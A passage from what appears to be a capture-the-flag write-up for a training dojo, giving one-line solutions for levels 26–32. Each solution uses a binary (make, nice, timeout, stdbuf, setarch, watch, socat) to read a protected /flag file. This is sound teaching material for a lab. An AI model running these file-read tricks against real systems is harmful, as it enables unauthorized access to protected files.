 ### Level 26 - make

With a bit of bash magic, we can come up with something like this:

```bash
$ make -s -C / -f /dev/null --eval="$(echo -e 'print_flag:\n\t@cat /flag\n') print_flag"
```

### Level 27 - nice

```bash
$ nice cat /flag
```

### Level 28 - timeout

```bash
$ timeout 69 cat /flag
```

### Level 29 - stdbuf

```bash
$ stdbuf -o 0 cat /flag
```

### Level 30 - setarch

```bash
$ setarch --uname-2.6 cat /flag
```

### Level 31 - watch

```bash
$ watch -x cat /flag
```

### Level 32 - socat

```bash
$ socat -u FILE:/flag -
```

The output will be really long, go up right after the command to get the flag.

- `-u` ensures that `socat` operates in unidirectional mode.
- `FILE:/flag` specifies that `socat` should read from the `/flag` file.
- `-` at the end instructs `socat` to send the contents to standard output.

<center>
    <h1>
Programming
    </h1> 
</center>

Personally, I wouldn't categorize these challenges as "programming", but that's what the Dojo suggests.
